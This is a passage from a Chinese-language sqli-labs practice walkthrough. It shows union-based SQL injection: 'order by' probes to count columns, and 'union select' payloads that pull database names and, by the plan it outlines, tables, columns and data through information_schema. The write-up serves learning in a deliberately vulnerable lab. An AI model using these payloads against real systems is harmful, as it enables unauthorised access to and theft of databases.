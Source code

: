 接下来就是常规的联合注入

使用order by 来测试表的列数

```sql
?id=1'order by 3--+
?id=1'order by 4--+
```

![image-20201105195843033](sqli-labs1-20/image-20201105195843033-1604667081398.png)
发现输入4显示错误，说明是三列

接下来使用联合查询

![image-20201107160953915](sqli-labs1-20/image-20201107160953915.png)

```sql
?id=-1' union select 1,2,3--+
1,2,3 只是为了保证union前后两个语句的列数相同，
id=-1 则是为了使前一个查询无返回结果从而返回第二个 select 的查询结果,只需要将数字替换为相应的想要查询的信息即可.比如：
?id =1 union select 1,database(),user()--+
下面使用MySQL自带的一个表information_schema，依次爆库名，爆表名，爆列名，爆数据了
```



**爆库**

```sql
?id=-1'union select 1,database(),3--+
```

![image-20201105201629084](sqli-labs1-20/image-20201105201629084-1604667081398.png)
